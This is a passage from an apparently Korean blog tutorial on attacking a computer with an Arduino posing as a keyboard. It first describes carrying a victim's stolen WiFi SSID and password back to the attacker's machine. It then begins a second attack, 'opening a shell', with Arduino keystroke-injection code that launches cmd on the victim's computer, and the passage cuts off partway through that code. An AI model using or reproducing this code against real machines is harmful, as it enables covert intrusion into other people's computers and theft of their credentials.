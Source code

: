 데이터를 전송한 후, 아두이노를 피해자의 컴퓨터에서 분리하여 내 컴퓨터에 연결합니다. 그런 다음, 캡처된 데이터를 제 노트패드로 전송하는 배송 프로세스를 시작하려면 오른쪽 버튼을 트리거합니다.

![이미지](/assets/img/2024-06-22-HackingacomputerusingArduino_5.png)



<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

# 공격 2: 쉘 열기

여기서 여러분은 아마 생각하고 있을거에요: 우리 피해자의 WiFi SSID와 비밀번호를 훔치는 것에 그치지 말고 더 많은 정보를 얻을 수는 없을까요? 이 섹션에서는 쉘을 열어보는 방법을 보여드릴게요.

```js
#include <Keyboard.h>
#include <EEPROM.h>

char stringArray[50] = {""};
boolean extracted = false, dispatched = false;
int extractButton = 2, dispatchButton = 3;
void setup() {
    Serial.begin(9600);
    pinMode(extractButton, INPUT);
    pinMode(dispatchButton, INPUT);
    Keyboard.begin();
}
void loop() {
    if(digitalRead(extractButton) == HIGH && !extracted) {
        shell();
        extracted = true;
    }
    if(digitalRead(dispatchButton) == HIGH && !dispatched) {
        ipaddr();
        dispatched = true;
    }
    if(digitalRead(extractButton) == LOW)
        extracted = false;
    if(digitalRead(dispatchButton) == LOW)
        dispatched = false;
}

void shell() {
    delay(1000);
    Keyboard.press(KEY_LEFT_GUI);
    delay(20);
    Keyboard.release(KEY_LEFT_GUI);
    delay(500);
    Keyboard.print("cmd");
    delay(500);
    Keyboard.press(KEY_RETURN);
    delay(200);
    Keyboard.release(KEY_RETURN);
    delay(1000);
```